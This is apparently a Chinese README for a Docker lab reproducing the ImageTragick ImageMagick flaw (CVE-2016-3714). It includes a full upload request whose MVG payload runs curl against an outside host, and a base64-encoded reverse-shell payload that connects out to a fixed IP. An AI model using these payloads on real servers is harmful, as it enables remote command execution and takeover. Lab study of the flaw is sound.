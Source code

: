 # Imagetragick漏洞（CVE-2016–3714）测试环境

详情见 https://imagetragick.com/ 和 https://www.leavesongs.com/PENETRATION/CVE-2016-3714-ImageMagick.html ，不再描述原理。

## 测试方法

一些测试使用的POC：https://github.com/ImageTragick/PoCs

编译及启动测试环境：

```
docker-compose build
docker-compose up -d
```

访问`http://your-ip/`可见有三个文件：

```bash
├── demo.php # 使用vul.jpg+identify命令测试 
├── upload.php # 支持用户进行上传，并将上传的文件传入PHP的imagick扩展，触发漏洞
└── vul.jpg # 一个简单的POC
```

首先访问`http://your-ip/demo.php`，命令并没有回显，但在docker容器中，已经成功得到`/tmp/success`文件：

![](1.png)

再访问`http://your-ip/demo.php`测试，上传POC文件，数据包如下（**注意，我换了一个POC**）：

```
POST /upload.php HTTP/1.1
Host: your-ip
Content-Length: 321
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_11_6) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/57.0.2987.133 Safari/537.36
Content-Type: multipart/form-data; boundary=----WebKitFormBoundarydGYwkOC91nnON1ws
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,en;q=0.6
Connection: close

------WebKitFormBoundarydGYwkOC91nnON1ws
Content-Disposition: form-data; name="file_upload"; filename="vul.gif"
Content-Type: image/jpeg

push graphic-context
viewbox 0 0 640 480
fill 'url(https://127.0.0.0/oops.jpg"|curl "www.leavesongs.com:8889)'
pop graphic-context
------WebKitFormBoundarydGYwkOC91nnON1ws--

```

可见，`www.leavesongs.com:8889`已经接收到http请求，说明curl命令执行成功：

![](2.png)

反弹shell POC：

```
push graphic-context
viewbox 0 0 640 480
fill 'url(https://127.0.0.0/oops.jpg?`echo L2Jpbi9iYXNoIC1pID4mIC9kZXYvdGNwLzQ1LjMyLjQzLjQ5Lzg4ODkgMD4mMQ== | base64 -d | bash`"||id " )'
pop graphic-context
```

![](3.png)